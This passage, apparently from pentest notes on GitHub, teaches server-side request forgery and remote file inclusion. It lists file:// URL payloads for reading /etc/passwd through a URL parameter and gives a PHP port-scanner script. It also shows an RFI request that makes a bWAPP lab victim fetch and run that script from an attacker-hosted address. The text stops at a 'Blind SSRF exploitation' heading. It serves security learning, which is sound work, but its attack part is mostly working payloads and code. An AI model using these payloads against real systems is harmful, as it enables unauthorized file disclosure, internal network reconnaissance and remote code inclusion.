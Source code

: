
#### **Internal files via URL scheme**

Attacking the URL scheme allows an attacker to fetch files from a server and attack internal services.  
  
Some common exploits for accessing internal files include:  
  
`https://target.com/page?url=file://etc/passwd  
https://target.com/page?url=file:///etc/passwd  
https://target.com/page?url=file://\/\/etc/passwd  
https://target.com/page?url=file://path/to/file`

#### **Internal services via URL scheme**

First find the open port on system using Bruteforce (https://cobalt.io/blog/from-ssrf-to-port-scanner). Then we can use a URL scheme to connect to certain services.

Following is the remote malicious code that make this attack port scanning

```<?php
if (isset($_GET["ip"])) {
    $ports = array(21, 22, 23, 25, 53, 80, 443, 3306);
    foreach ($ports as $port) {
        $service = getservbyport($port, "tcp");
        if($pf = @fsockopen($_GET["ip"], $port, $err, $err_string, 1)) {
            echo "Port $port($service)" . ": <span style='color:green'>Open</span><br>";
            fclose($pf);
        }
        else {
            echo "Port $port($service)" . ": <span style='color:red'>Inaccessible</span><br>";
        }

    }
}

?>
```

Let’s attack port scans on the internal network using RFI

http://192.168.28.129/bWAPP/rlfi.php?language=http://192.168.28.1:8888/ssrf_port_scan.txt&ip=192.168.28.129&action=go

192.168.28.129 is a is victim address

Sample output:

![](https://hydrasky.com/wp-content/uploads/2016/12/ssrf6.png)
# Blind SSRF exploitation

1.Intercept the Request.

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/s.png)
